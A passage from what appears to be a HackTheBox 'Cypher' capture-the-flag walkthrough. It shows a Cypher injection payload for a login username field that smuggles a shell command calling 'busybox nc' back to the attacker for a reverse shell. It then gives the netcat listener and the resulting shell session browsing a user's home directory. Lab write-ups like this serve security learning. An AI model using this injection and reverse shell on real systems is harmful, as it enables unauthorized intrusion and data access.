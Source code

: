 | `<URL>`              | The target website being checked. |

> You can prefer [neo4j](https://neo4j.com/developer/kb/protecting-against-cypher-injection/) and this [blog](https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits).
{: .prompt-info }


Edit shell below and past into **username** field.


~~~ 
    "a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.x.x;busybox nc 10.10.x.x 4444 -e sh;#") YIELD statusCode AS a RETURN a;//"
~~~



Another command line, I execute this command to listen port 4444.


~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Cypher]
└─$ nc -lnvp 4444       
listening on [any] 4444 ...
connect to [10.10.14.185] from (UNKNOWN) [10.10.11.57] 52718
id
uid=110(neo4j) gid=111(neo4j) groups=111(neo4j)
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib.usr-is-merged
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var
cd /home
ls
graphasm
cd graphasm
ls
bbot_preset.yml
user.txt
cat user.txt
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
~~~